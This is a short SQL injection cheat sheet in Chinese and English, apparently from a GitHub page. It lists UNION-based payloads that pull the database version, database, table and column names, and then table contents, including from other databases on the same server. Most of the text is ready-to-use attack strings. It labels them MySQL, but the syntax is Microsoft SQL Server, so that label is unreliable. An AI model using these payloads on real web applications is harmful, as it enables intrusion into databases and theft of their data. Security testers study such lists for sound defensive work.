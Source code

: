 下面是MySQL实用注入payloads，将按类别列出：基于联合、基于错误和推理（时间和布尔值）。
无论您在哪里看到下面的@@version（用于查找数据库版本），您都可以将其替换为：

**db_name()**  提取库名  
user_name（） or user（） 提取数据库运行时的用户名  
@@servername 提取服务器名称  
**host_name()**  提取主机名
## UNION 联合查询

[UNION](http://technet.microsoft.com/en-us/library/ms180026.aspx)用于将我们的恶意查询附加到Web应用程序发出的有效查询的末尾。请记住首先使用具有NULL值的[ORDER BY](http://technet.microsoft.com/en-us/library/ms188385.aspx)或[UNION](http://technet.microsoft.com/en-us/library/ms180026.aspx)查找列数。假设有三列：

提取数据库版本：
```SQL
1 UNION SELECT NULL,@@version,NULL--
```
提取数据库名称（将N更改为从1开始的数字）：
```sql
1 UNION SELECT NULL,DB_NAME(N),NULL--
1 UNION SELECT NULL,name,NULL FROM master ..sysdatabases--
```
提取表名：
```sql
1 UNION SELECT NULL,TABLE_NAME,NULL FROM information_schema.TABLES--
1 UNION SELECT NULL,name,NULL FROM sysobjects WHERE xtype = 'U'--
```
提取列名（替换table1）：
```sql
1 UNION SELECT NULL,column_name,NULL FROM information_schema.COLUMNS-- will extract all columns (regardless of table)

1 UNION SELECT TABLE_NAME,column_name,NULL FROM information_schema.COLUMNS-- will line up tables with columns

1 UNION SELECT NULL,name,NULL FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'table1')-- will extract columns from a specific table in the current database
```
提取数据（更改列1和表1）：
```sql
1 UNION SELECT NULL,column1,NULL FROM table1--
```

Extract table names from another database (replace other_database with database name)

```sql
1 UNION SELECT NULL,name,NULL FROM other_database..sysobjects WHERE xtype = 'U'--
```

Extract column names from another database (replace other_database and other_table):

```sql
1 UNION SELECT other_database..syscolumns.name, TYPE_NAME(other_database..syscolumns.xtype),NULL FROM other_database..syscolumns, other_database..sysobjects WHERE other_database..syscolumns.id=other_database..sysobjects.id AND other_database..sysobjects.name='other_table'--
```
